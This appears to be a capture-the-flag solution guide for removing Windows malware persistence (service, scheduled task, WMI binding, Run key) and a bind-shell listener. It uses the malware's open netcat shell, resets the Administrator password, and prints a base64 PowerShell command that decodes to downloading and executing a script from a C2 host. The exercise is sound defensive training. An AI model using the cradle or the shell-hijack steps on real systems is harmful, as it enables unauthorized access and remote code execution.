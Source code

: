 # I HAVE THE POWERRRRR! (shell) 

_Solution Guide_

## Overview

The system has been infected with a persistent malware that's opening up a bind shell listener.  Stop and remove the persistence methods and close the listener.  The persistence methods recreate one another.

>**Note:** This challenge has a number of tasks that can be remedied in a couple different sequences.  Each malware mechanism recreates itself and others, so deleting one at a time will not work.  They need to be scripted, or the recreation cycle needs to be broken. The mechanisms that need to be fixed for grading are in grading order:

1. Listener Disabled
2. Windows Service
3. Scheduled Task
4. WMI persistence
5. "Run" Registry value

Mechanism 2-5 each contact C2 every minute and run a remote script that recreates all the mechanisms and opens the listener.

There are multiple ways to find the artifacts using C:\ProgramData\chocolatey\bin\autorunsc64.exe, Or with powershell search commands, or from CMD.exe

## Solution

The easiest machine connection is through the listener on 3333 that the malware leaves open.  This conveniently gives a powershell prompt.

``` 
netcat 10.5.5.79 3333
```

<img src="img/c30-img1.png">

First thing after gaining access, it's probably a good idea to give yourself ssh or another method of access since we want to kill the listener we're currently connected to. I already know grading uses SSH, so that's a way to remotely access.  I can't change the "user" account, so I'll see what else is on there.

```
net user
```

<img src="img/c30-img2.png">

Let's change the password on the Administrator account:

```
net user Administrator Password1234
```

<img src="img/c30-img3.png">

Now we can SSH:

```
SSH Administrator@10.5.5.79
```

```
Powershell
```

<img src="img/c30-img5.png">

Let's see what's listening on which port

```
netstat -ano -p tcp
```
<img src="img/c30-img6.png">

Find out the process and path using the 3333 port

``` 
Get-Process -id 3416 |select Path
```
>**Note:** Killing this process will pass grading check #1, but you will also get removed if you're connected on port 3333.

So as denoted by the :search.exe portion of the path, it looks like the program is running in an Alternate Data stream.  Let's see what else is in the folder it's running from:

<img src="img/c30-img7.png">

Let's take a look at the python script

```
Get-Content .\service.py
```

<img src="img/c30-img8.png">

It's running an encoded powershell command every minute.

Decode it:

```
$encoded = 'SQBuAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACAAKAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4ANQAuADUALgA1ADcALwByAHUAbgBtAGUALgBwAHMAMQAnACkAKQA='                                                                                                      

$decoded = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($encoded))

$decoded
```
<img src="img/c30-img9.png">

The command is running a script.  You can download and examine the script to your console if you'd like.

The script is creating the listener by downloading the search.exe, but it's also creating a Scheduled Task, a Service, and a WMI command trigger.

You can write your own script to remove all these at once, or you can see the script is only checking for the presence of the objects before creating them.  

I will disable them to keep the processes form recreating the persistence.

## Windows Service Persistence

The Windows service can be stopped or disabled as the script only checks if it exists:
```
Stop-Service -Name "search helper"
```
The above command stops the service
```
Set-Service -Name "search helper" -StartupType Disabled
```
The above command disables the service. 
You can see status with the Get-Service command:
```
Get-Service -Name "search helper"
```
Adding "| Select StartType" to the above command will verify it's Disabled 
```
Get-Service -Name "search helper' | Select Starttype
```
<img src="img/c30-img11.png">

## Scheduled Task Persistence

The Script is only checking if the scheduled task exists, so once again we can disable it:

```
Disable-ScheduledTask -Taskname "Start Jobs"
```

<img src="img/c30-img12.png">

## WMI Persistence

If you examine the remote powershell script, you'll see that the wmi object checks are only on the EventFilter and EventConsumer, but not the binding.  Let's break it:

```
Get-WMIObject -Namespace root\subscription -Class __FilterToConsumerBinding -Filter "__Path LIKE '%Run Helper%'" | Remove-WmiObject -Verbose
``` 
<img src="img/c30-img10.png">

Now that all the persistence methods have been stopped, you can feel free to remove the above persistence objects, but the script does not require this for grading.

## Registry run value Persistence

To see the registry keys, run:
```
Get-Item -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\'
```
You'll note right away the key we want to delete:

<img src="img/c30-img13.png">

Run the command to remove:
```
Remove-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\' -Name "Helper" 
```

<img src="img/c30-img14.png">
